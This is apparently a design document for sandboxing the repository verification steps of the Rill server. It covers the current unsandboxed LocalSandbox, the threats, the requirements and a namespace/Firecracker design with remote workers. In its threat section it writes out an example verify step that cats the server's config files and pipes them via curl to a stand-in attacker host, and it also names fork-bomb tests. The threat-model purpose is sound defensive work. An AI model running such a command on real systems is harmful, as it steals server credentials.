

# Sandboxed execution

`rill-exec` runs a repository's `.rill/verify.toml` steps as part of landing.
Today every step is an ordinary process on the server host, spawned by
`LocalSandbox` with a cleared environment and a temporary directory; nothing
else separates it from the server's filesystem, network, credentials or CPU.
The invariant a production deployment needs is that a verification step
authored by anyone who can write to a repository cannot read, modify or
exhaust anything that is not its own input tree.

## Current state

The crate is layered as `Action` → `Runner` → `Sandbox`, with results in a
content-addressed `ActionCache`.

| Piece | Source | What it does now |
| --- | --- | --- |
| `Action` | [action.rs](../../crates/rill-exec/src/action.rs) | `command`, `env`, `input_root: TreeHash`, `working_dir`, `timeout` (default 600 s), `platform` (`os`, `arch` from `host_platform()`), `output_paths`. `digest()` is the BLAKE3 hash of the canonical encoding and is the cache key. |
| `Runner::execute` | [runner.rs](../../crates/rill-exec/src/runner.rs) | Cache lookup, per-digest in-flight lock (`DashMap<ObjectHash, Arc<Mutex<()>>>`), `tempfile::tempdir()`, `materialize` of the full input tree, `sandbox.run`, output collection, `cache.put`. |
| `ActionCache` | [cache.rs](../../crates/rill-exec/src/cache.rs) | `ActionResult` stored under derived kind `ac@1` keyed by digest; stdout, stderr and output files stored through `store_content` as ordinary blobs. |
| `Sandbox` trait | [sandbox/mod.rs](../../crates/rill-exec/src/sandbox/mod.rs) | `run(&self, dir, action) -> RawOutcome` plus `worker_name()`. |
| `LocalSandbox` | [sandbox/local.rs](../../crates/rill-exec/src/sandbox/local.rs) | `tokio::process::Command` with `env_clear()`, the action's env, `PATH` and `HOME` passed through, `stdin` null, own process group, `SIGKILL` of the group on timeout, 2 s drain grace. `network: bool` is documented as advisory and is not enforced. |
| `FirecrackerSandbox` | [sandbox/firecracker.rs](../../crates/rill-exec/src/sandbox/firecracker.rs) | A config struct (`kernel`, `rootfs`, `vcpus`, `memory_mib`, `network`) whose `run` returns `Error::NotSupported`. It is a stub. |
| `verify_tree` | [verify.rs](../../crates/rill-exec/src/verify.rs) | Parses `.rill/verify.toml`, one `Action` per `[[step]]`, runs steps in order, stops at the first failure. A tree without a plan is green. |
| Server wiring | [registry.rs](../../crates/rill-server/src/state/registry.rs), [verifier.rs](../../crates/rill-server/src/workers/verifier.rs), [config.rs](../../crates/rill-server/src/config.rs) | `VerifyConfig { enabled, sandbox: SandboxKind::Local, network }`; `SandboxKind` has one variant. One `Runner` per repository, inside the server process. `ExecVerifier` adapts it to `rill_lander::Verifier`. |

Facts that follow from the code:

* The process inherits the server's uid, mount namespace, network namespace
  and cgroup. A step can `cat /etc/rill/server.toml`, read the redb files
  under the storage directory, or open a socket to the metadata store.
* There is no CPU, memory, pid, disk or output-size limit. `RawOutcome.stdout`
  is read to end into memory (`drain`), then stored as a blob.
* `materialize` writes the entire tree for every uncached action. Sparse
  materialization exists (`MaterializeOptions.sparse`) but `Runner` always
  passes `SparseProfile` default (everything).
* `platform` is only `os` and `arch`. Two hosts with different toolchains
  produce the same digest, so the cache will serve a result computed with a
  different compiler.
* Secrets have no representation. `env` is part of the digest, so putting a
  token in `env` both leaks it into the stored `Action` and makes rotation
  invalidate the cache.
* `VerifyMode::Affected` is accepted by the lander and ignored by the
  verifier; both modes run the full plan
  ([config.rs](../../crates/rill-lander/src/config.rs)).
* `LanderService.ReportVerification`
  ([lander.proto](../../crates/rill-proto/proto/rill/v1/lander.proto)) lets an
  external system post a verification result for a trunk seq. That is the only
  remote-execution surface, and it is a result sink, not a work queue.

```mermaid
flowchart LR
  Lander -->|verify(root)| ExecVerifier
  ExecVerifier --> Runner
  Runner -->|get/put ac@1| MetaStore
  Runner -->|materialize| TmpDir[(tempdir on server host)]
  Runner -->|run| LocalSandbox
  LocalSandbox -->|fork/exec, same uid, same netns| HostProcess
  HostProcess -.can reach.-> MetaStore
  HostProcess -.can reach.-> Config[server config, storage dir]
```

## Why it blocks production

1. **Repository write = server root-equivalent.** Anyone who can submit a
   change edits `.rill/verify.toml`. The step `["sh","-c","cat
   $HOME/.config/rill/* | curl -d @- attacker"]` runs as the server user on
   the server host the next time that change is landed under
   `VerifyMode::Full` or `Affected`. Capability tokens, Cedar policies and
   ReBAC relations are all bypassed by this one file.
2. **Denial of service by a test.** A step that forks until the pid limit,
   allocates until the OOM killer picks a victim, or fills `/tmp` takes the
   gRPC server with it. The runner's own `tempdir` lives in the same
   filesystem the OOM-killed server was using.
3. **Cache poisoning across hosts.** With `platform = {os, arch}`, a result
   computed on a host with a broken toolchain is served to every other host
   forever; `ActionCache::put` replaces blindly and there is no invalidation.
4. **Unbounded output.** `drain` reads stdout to end into a `Vec`. A step
   printing 10 GB of logs allocates 10 GB in the server before `store_content`
   chunks it.
5. **No place for secrets.** Integration tests that need a registry token have
   no way to receive one except through `env`, which is persisted in the
   `Action` and `ActionResult` records and visible to anyone with repository
   read.
6. **Verification is capped by one host.** `Runner` is per-repo and
   in-process. A monorepo whose plan takes 40 minutes of CPU serialises every
   landing behind that one machine; `LandPolicy.max_wait` (30 min default)
   then fails landings.

## Requirements

Done means each of these is observable in a test or a deployment check.

* R1. A step cannot read any host path outside its materialized input root and
  an explicitly mounted toolchain image. Test: a plan step that reads the
  server config file fails with ENOENT or EACCES.
* R2. A step cannot open a network connection unless the plan step declares
  `network = true` and the repository policy permits it. Test: `curl` to the
  metadata store address fails when network is off.
* R3. Per-step limits on CPU seconds, resident memory, pid count, scratch disk
  and total captured output are enforced, defaulted by server config, and
  overridable downward per step. Test: a fork bomb step ends with a recorded
  limit violation and the server stays responsive.
* R4. Exceeding a limit is a distinct outcome from a non-zero exit
  (`ActionResult` gains a `termination` field: `Exited`, `TimedOut`,
  `Killed{reason}`).
* R5. The action digest includes the execution image identity (rootfs digest
  or toolchain digest), so results do not cross incompatible environments.
* R6. Secrets are referenced by name in the plan, resolved at run time from a
  server-side secret source, injected into the guest only, and never written
  into `Action`, `ActionResult`, stdout blobs (redacted) or logs.
* R7. Stdout and stderr are streamed to the object store in bounded chunks,
  capped at a configured size, and the cap is recorded in the result.
* R8. Work can run on a host other than the API server, with the API server as
  the only writer of `ac@1` and the lander's verification records.
* R9. The `LocalSandbox` remains available for development and is refused by
  `rill-server` unless `dev_mode` is set or an explicit
  `verify.allow_unsandboxed = true` is present.

## Design direction

### Recommended: two tiers of isolation behind the existing `Sandbox` trait, and a pull-based worker protocol

The `Sandbox` contract (`run(dir, action) -> RawOutcome`) is sufficient; the
design keeps it and fills in two backends plus a remote dispatcher.

**Tier 1: OS sandbox (`NamespaceSandbox`, Linux).** Spawn via a small
setuid-free helper that unshares user, mount, pid, net and ipc namespaces,
bind-mounts the materialized root read-write at `/work`, the toolchain image
read-only at `/`, a tmpfs at `/tmp`, and nothing else; applies a cgroup v2
scope with `cpu.max`, `memory.max`, `pids.max`; applies a seccomp profile
equivalent to the runtime default from OCI; and, when `network` is false,
leaves the net namespace with only loopback. This is what Bubblewrap,
`systemd-run --scope`, and Buck2's local executor do. It is strong enough for
a single-tenant company deployment where repository writers are employees, and
it costs a few milliseconds per step.

**Tier 2: VM sandbox (`FirecrackerSandbox`, filled in).** For multi-tenant
hosting or untrusted agents. Boot a Firecracker microVM from a snapshot of a
pre-booted rootfs (restore in ~5 ms with snapshot/restore), expose the input
tree over virtio-fs (or pack it into an ext4 block image when the tree is
small), run the command through an in-guest agent over vsock, copy
`output_paths` back, destroy the VM. gVisor (`runsc`) is the alternative at
this tier with lower boot cost and weaker but still kernel-separated
isolation; both fit the same `Sandbox` impl shape. The stub already names the
fields the backend needs.

**Resource limits** live on `Action` as a `Limits { cpu_ms, memory_bytes,
pids, scratch_bytes, output_bytes }` struct with server-config defaults,
merged with per-step overrides that can only reduce. `Limits` is part of the
digest (a result obtained with 1 GB of RAM is not the same action as one with
8 GB).

**Platform identity.** `platform` gains `image = <digest of rootfs or
toolchain OCI image>`; the server config names the image per repository or per
plan step. `host_platform()` stays for the local backend.

**Secrets.** `[[step]] secrets = ["REGISTRY_TOKEN"]` names entries. The runner
resolves names through a `SecretSource` trait (file-backed and env-backed
implementations first; Vault/KMS later), injects them as environment variables
inside the guest only, and passes the *names* (not values) into the digest.
Captured output is scanned for the injected values and redacted before
`store_output`.

**Streaming output.** `RawOutcome.stdout: Bytes` becomes a `ContentRef`
produced by a bounded writer that chunks straight into the object store
(reusing `store_content`'s FastCDC path per 1 MiB segment) and stops capturing
at `output_bytes`, recording `truncated: true`.

**Remote execution.** Add a `WorkerService` to `rill.v1`:

```
rpc PullAction(stream WorkerHello) returns (stream Assignment)
rpc ReportResult(ReportResultRequest) returns (ReportResultResponse)
```

Workers hold a capability token with a `worker` relation; the server keeps a
per-repo queue of `(digest, Action)` and leases an assignment for `timeout +
grace`. A worker materializes the input tree through the object HTTP protocol
(`POST /o/{repo}/batch`), runs it in its local `Sandbox`, uploads outputs via
`PUT /o/...`, and reports. The API server alone writes `ac@1`. This is a
reduced Bazel Remote Execution API: Rill already has the CAS (`/o/`) and the
action cache; what it lacks is `Execute` and a worker pool, and the pull model
avoids the server needing to reach workers.



### Alternatives considered

| Option | Why not (or when) |
| --- | --- |
| Docker/containerd per step | Heavy per-step cost, daemon with root, and the image pull story duplicates the object store. A namespace sandbox gives the same isolation without the daemon. |
| Delegate verification entirely to an external CI (GitHub Actions, Buildkite) via `ReportVerification` | Loses the action cache and the "build and test share the object store" principle; acceptable as a bridge for teams that already have CI, and the RPC exists for it. |
| Full Bazel RE API compatibility | Protocol surface is large (ByteStream, Capabilities, platform properties). Rill's CAS and digest scheme differ (BLAKE3, kinds). A reduced protocol is cheaper and can gain an RE API adapter later. |
| WebAssembly sandbox | Does not run `cargo test` or `pytest`. |

### Trade-offs

* The namespace sandbox needs Linux with unprivileged user namespaces; macOS
  hosts get only `LocalSandbox`, so a developer laptop running `rill-server`
  is explicitly unsandboxed (R9).
* Including `image` and `Limits` in the digest reduces cache hits across
  environment drift; that is the point, but a repo that bumps its image
  invalidates its whole cache.
* Pull-based workers add a queue and a lease state machine to the server,
  which also becomes the place to implement `VerifyMode::Affected` (select
  steps by changed paths) once step inputs can be declared.

## Work breakdown

1. **S** Add `Limits` and `termination` to `Action`/`ActionResult`; bump
   `ac@1` to `ac@2`; enforce `output_bytes` in `LocalSandbox` by truncating
   the drain.
2. **S** Refuse `SandboxKind::Local` in `rill-server` unless `dev_mode` or
   `verify.allow_unsandboxed`.
3. **M** Streaming output capture: bounded writer into `store_content`,
   `truncated` flag, redaction hook.
4. **L** `NamespaceSandbox`: unshare + bind mounts + cgroup v2 + seccomp +
   netns; `SandboxKind::Namespace`; integration tests for R1-R4 (skipped where
   user namespaces are unavailable).
5. **M** `platform.image` and per-repo image configuration; toolchain image
   build documentation.
6. **M** `SecretSource` trait, `[[step]] secrets`, injection and redaction,
   names-only in digest.
7. **L** `WorkerService` proto, queue and lease table (derived keyspace
   `exec:lease@1`), worker binary `rill-worker` built on the SDK and the
   object protocol, single-writer `ac@1` on the API side.
8. **XL** `FirecrackerSandbox`: rootfs snapshot management, virtio-fs export
   of the input dir, vsock agent, output copy-back. gVisor variant as a
   follow-on sharing the image plumbing.
9. **M** `VerifyMode::Affected`: `[[step]] inputs = [...]` globs; the verifier
   skips steps whose inputs do not intersect the change's paths.

## Risks and open questions

* Unprivileged user namespaces are disabled on some distributions (Debian
  defaults, hardened kernels). Fallback is a setuid helper or requiring the VM
  tier.
* Virtio-fs performance for large trees is poor compared to a block image; the
  packed-image path needs a size threshold and a cache of packed images keyed
  by `input_root`.
* Where does the toolchain image live? Storing OCI layers in the object store
  is attractive (dedup, immutability, the `/o/` CDN path) but makes
  `rill-store` a registry. Alternative is an external registry referenced by
  digest.
* Workers with stale images: the lease must carry the required `image` digest
  and a worker must refuse assignments it cannot satisfy, or the digest check
  in R5 silently serialises every job to the one matching worker.
* Secret redaction of captured output is best-effort (values can be
  base64-encoded by the step). The firm guarantee is that values never enter
  `Action`/`ActionResult`; redaction is defence in depth.
* Cache invalidation: there is no admin RPC to purge `ac@1` entries. A
  poisoned or mis-attributed result today persists forever; an
  `AdminService.InvalidateActions(digest | image)` call is needed regardless
  of sandbox tier.
* Open: should `Limits` defaults be per-repository (policy) or per-server?
  Per-server is simpler; per-repository is what a multi-tenant host needs for
  billing.

## References

Source: [rill-exec/src/action.rs](../../crates/rill-exec/src/action.rs),
[runner.rs](../../crates/rill-exec/src/runner.rs),
[cache.rs](../../crates/rill-exec/src/cache.rs),
[materialize.rs](../../crates/rill-exec/src/materialize.rs),
[sandbox/local.rs](../../crates/rill-exec/src/sandbox/local.rs),
[sandbox/firecracker.rs](../../crates/rill-exec/src/sandbox/firecracker.rs),
[verify.rs](../../crates/rill-exec/src/verify.rs),
[rill-server/src/workers/verifier.rs](../../crates/rill-server/src/workers/verifier.rs),
[rill-server/src/state/registry.rs](../../crates/rill-server/src/state/registry.rs),
[rill-server/src/config.rs](../../crates/rill-server/src/config.rs),
[rill-lander/src/config.rs](../../crates/rill-lander/src/config.rs),
[lander.proto](../../crates/rill-proto/proto/rill/v1/lander.proto).

Prior art: Firecracker (microVM snapshot/restore, vsock agent pattern), gVisor
`runsc`, Bubblewrap and `systemd-run` (namespace + cgroup sandboxes), OCI
runtime-spec default seccomp profile, Bazel Remote Execution API and
Buildbarn/BuildGrid (CAS + action cache + `Execute`), Buck2's local and remote
executors, Nix build sandbox (network-off by default, declared inputs), GitHub
Actions ephemeral runners and secret masking, Sourcehut builds (single-use
VMs), Google's Forge and TAP (shared action cache across workers).
